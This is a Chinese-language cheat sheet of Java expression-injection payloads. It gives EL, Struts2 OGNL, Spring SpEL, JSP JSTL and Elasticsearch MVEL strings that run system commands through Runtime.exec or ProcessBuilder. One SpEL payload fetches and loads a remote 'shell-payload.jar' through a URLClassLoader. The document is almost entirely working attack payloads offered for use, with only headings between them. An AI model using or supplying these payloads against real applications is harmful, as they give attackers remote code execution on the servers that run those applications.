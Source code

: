 # 代码注入

> From https://y4er.com/post/java-expression-injection/

## 通用payload

```java
${pageContext}
${pageContext.getSession().getServletContext().getClassLoader().getResource("")}
${header}
${applicationScope}
${pageContext.setAttribute("a","".getClass().forName("java.lang.Runtime").getMethod("exec","".getClass()).invoke("".getClass().forName("java.lang.Runtime").getMethod("getRuntime").invoke(null),"calc.exe"))}
```

## Struts2 OGNL

```java
ActionContext AC = ActionContext.getContext();
String expression = "${(new java.lang.ProcessBuilder('calc')).start()}";
AC.getValueStack().findValue(expression));
```

## Spring SPEL

执行命令

```java
String expression = "T(java.lang.Runtime).getRuntime().exec(/"calc/")";
String result = parser.parseExpression(expression).getValue().toString();
```

加载远程恶意Jar

```java
''.getClass().forName('javax.script.ScriptEngineManager').newInstance().getEngineByName("JavaScript").eval("var url=Java.type('java.net.URL[]');urls=new url(1);urls[0]=new java.net.URL('http://127.0.0.1:2333/shell-payload.jar');new javax.script.ScriptEngineManager(new java.net.URLClassLoader(urls))")
```

## JSP JSTL_EL

```java
<spring:message text="${/"/".getClass().forName(/"java.lang.Runtime/").getMethod(/"getRuntime/",null).invoke(null,null).exec(/"calc/",null).toString()}">
</spring:message>
```

## Elasticsearch MVEL
```java
String expression = "new java.lang.ProcessBuilder(/"calc/").start();";  
Boolean result = (Boolean) MVEL.eval(expression, vars);
```